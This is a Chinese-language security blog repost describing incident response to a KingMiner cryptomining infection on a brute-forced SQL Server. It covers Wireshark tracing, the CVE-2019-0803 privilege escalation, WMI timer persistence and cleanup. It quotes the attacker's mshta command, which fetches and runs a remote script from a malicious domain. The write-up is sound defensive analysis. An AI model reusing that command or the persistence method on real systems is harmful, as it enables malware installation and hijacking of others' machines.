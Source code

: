 #  【实战】记一次实战“恶意外连”事件的应急响应

聚焦网络安全分享  [ 安全聚 ](javascript:void\(0\);)

**安全聚** ![]()

微信号 sec-poly

功能介绍 安全聚-聚焦发力于网络安全技术分享。

____

___发表于_

收录于合集

记一次实战“恶意外连”事件的应急响应

## 事件背景

忙碌了一天的沐师傅正准备下班，突然一个电话响起XX局被通报《"恶意外连"事件》，需要马上前往客户现场进行应急排查。于是乎沐师傅Wuwuuwu～，背起书包奔赴客户现场。

## 应急排查

### 沟通交流

到达现场后，通过与运维人员沟通了解事件原委：客户收到了国家局通报称本单位有服务器/主机IP为`111.x.x.x`存在与恶意域名`news.g23xxx.com`进行通信行为，疑似遭受木马病毒攻击，需要应急排查事情原委，定位存在异常的主机/服务器。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234358.png)

### 定位异常主机/服务器

得知IP
`x.x.x.x`为客户互联网出口IP地址，且互联网出入口侧无态势等流量检测设备，通过排查负载、IPS、深信服上网行为管理等日志均未发现内网主机服务器与恶意域名news.g23xxx.com、解析IP`（154.x.x.x）`相关访问日志。恶意域名进行分析后发现该恶意域名在威胁情报上被标记为KingMiner挖矿木马，僵尸网络，远控服务器。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234416.png)对该恶意域名下的木马样本进行粗略查看，判断该挖矿木马是通过UDP协议进行通信，于是想了个办法，用`Wireshark`旁路到互联网出口上，抓取互联网出口侧全流量，对流量进行过滤筛选`udp
&amp;&amp; frame.contains
"g23xxx"`，终于发现存在恶意外连的流量请求，成功定位到异常服务器，内网IP地址为10.10.10.10（数据共享平台），为一台SQL
Server数据库服务器。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234418.png)

### 上机排查

遂即上机进行排查，进行日志、样本的提取，经过分析日志发现该主机存在大量恶意Powershell进程![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234421.png)在SQL
Server数据库日志中发现该服务器在`2022年3月4日11:17:02`到`2022年5月7日 21:45:15`期间遭受来自境外恶意IP
`62.x.x.x`（俄罗斯莫斯科）、`62.x.x.x`（俄罗斯莫斯科）大量爆破行为，最终爆破成功。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234422.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234425.png)当数据库爆破成功后，该IP在服务器上执行了VBS脚本下载经过`base64编码`的二进制blob文件，经过解码后保存为`C:\\Users\\Public\\Downloads\\\\tool.exe`![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234428.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234429.png)经过分析该文件`tool.exe`运行后会利用Windows权限提升漏洞`CVE-2019-0803`进行攻击，成功利用此漏洞的攻击者可以在内核模式下运行任意代码，然后可以安装程序；查看、更改或删除数据；或创建具有完全用户权限的新帐户。`tool.exe`在特权模式下执行命令`mshta.exe
vbscript:GetObject(\\"script:http\[:\]//aa.30583fdae.tk/r1.txt\\")(window.close)`，通过`mshta.exe`执行脚本`r1.txt`来进行持久化。其中`tool.exe`所请求域名`aa.30583xxxx.tk`为门罗币挖矿木马地址，威胁情报已标记为恶意：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234434.png)`Tool.exe`文件沙箱分析结果：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234435.png)

行为分析：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234437.png)

行为分析图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234439.png)

程序运行示例图：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234441.png)

其中下载的`r1.txt`会配置名为`WindowsSystemUpdate
\_WMITimer`的计时器，并将执行一段脚本代码的事件消费者`WindowsSystemUpdate\_consumer`通过事件过滤器`WindowsSystemUpdate\_filter`绑定到计时器，从而通过计时器每15分钟执行一次下面的VBS脚本代码：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234444.png)WMI定时任务存在并已清除![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234446.png)

后续继续跟进分析发现，可能由于挖矿木马解析IP地址变更，或恶意域名不可达等原因，造成挖矿木马所需的部分程序或脚本未能成功下载到本地，经过排查，仅发现此处`tool.exe`所创建的wmi启动项，定时通过`nslookup`查询恶意域名`"news.g23xxx.com"`
DNS记录，造成本服务器访问恶意域名`"news.g23xxx.com"`触发恶意外连告警。

在此次分析过程中，还发现该服务器还存在其他木马病毒，均已提取出样本并清除：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234449.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234451.png)至此，此次事件初步排查完成，客户已对该服务器进行断网处理，经过全盘木马病毒查杀，启动项删除，并在防火墙上封禁了该恶意域名与IP地址。

## 应急事件总结

【被攻击服务器】：`SQL
Server`服务器，数据共享平台【攻击链路】：攻击者针对`Windows`服务器`MSSQL`进行爆破攻击，爆破入侵成功后，首先执行一段`VBS`脚本，检测操作系统版本，并根据不同的系统版本下载不同的`Payload`文件，利用下载的文件`tool.exe`进行`(CVE-2019-0803)`提权以及门罗币挖矿。同时还会安装`WMI定时器`和`Windows计划任务`来反复执行指定脚本，执行服务器返回的恶意代码达到持久化攻击的目的；【木马病毒类型】：挖矿木马，挖矿类型：`KingMiner`门罗币；【安全设备运行情况】：IPS、深信服上网行为管理、服务器本地“火绒”杀毒软件未检测出异常；【处置情况】：已成功定位存在异常的内网服务器，已做断网处理，已进行全盘查杀、日志提取、样本提取等工作，客户反馈该服务器已闲置，后续不再投入使用；【持续监控】：后续将部署态势感知设备，对恢复后的网站持续监测。

  

  

  

  

END

  

转载免责

  
  
  

 **本文作者：** F1ne

 **转载来自：** forum.butian.net

  

 **转载声明：** 本文章转载来源于"奇安信攻防社区"如有侵权请告知，我们会第一时间删除处理。

 **  
免责声明：** 本公众号提供的文章内容仅供参考学习用途，禁止使用该文章用于非法用途，造成任何直接或间接的后果及损失由使用者承担。安全聚作者不承担任何责任。

微信：silentsec

 **关注"安全聚"获得更多精华文章**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217234452.png)

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

